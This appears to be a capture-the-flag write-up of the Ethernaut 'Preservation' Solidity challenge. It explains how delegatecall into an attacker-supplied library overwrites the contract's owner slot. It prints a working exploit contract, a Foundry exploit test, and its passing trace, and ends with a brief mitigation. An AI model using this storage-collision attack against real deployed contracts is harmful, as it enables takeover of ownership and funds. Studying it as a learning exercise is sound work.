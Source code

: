 
Delegatecall executes the called function in the context of Preservation, altering its storage layout.

The function setTime(uint256) is expected to write to slot 0 (storedTime), but due to delegatecall, it may write to unintended slots like owner (slot 2).
### 🛠️ Exploit Contract

``` solidity
contract AttackLibrary {
    function setTime(uint256 _time) public {
        address _target = address(uint160(_time));
        assembly {
            sstore(2, _target) // Overwrite slot 2 (owner) with attacker address
        }
    }
}
```
### 🧪 Exploit Test
``` solidity
function test_attack() public {
    vm.startPrank(attacker);

    // Step 1: Deploy malicious library
    AttackLibrary attackLibrary = new AttackLibrary();

    // Step 2: Overwrite timeZone1Library with address of malicious contract
    preservation.setFirstTime(uint160(address(attackLibrary)));

    // Step 3: Verify overwrite
    assertEq(
        uint160(address(attackLibrary)),
        uint160(preservation.timeZone1Library())
    );

    // Step 4: Call again to trigger delegatecall to attackLibrary and overwrite owner
    preservation.setFirstTime(uint160(attacker));

    vm.stopPrank();
}
```

### 📋 Test Output
``` text
[PASS] test_attack() (gas: 98607)

Traces:
  PreservationTest::test_attack()
    ├─ startPrank(attacker)
    ├─ new AttackLibrary
    ├─ Preservation::setFirstTime(attackLibrary address)
    │   └─ delegatecall to DummyLibrary
    ├─ Preservation::timeZone1Library()
    ├─ assertEq(...)
    ├─ Preservation::setFirstTime(attacker address)
    │   └─ delegatecall to AttackLibrary::setTime
    │       └─ storage slot 2 updated with attacker address
    └─ stopPrank()
```
### 🔒 Recommended Mitigation
Do not use delegatecall with untrusted contracts.
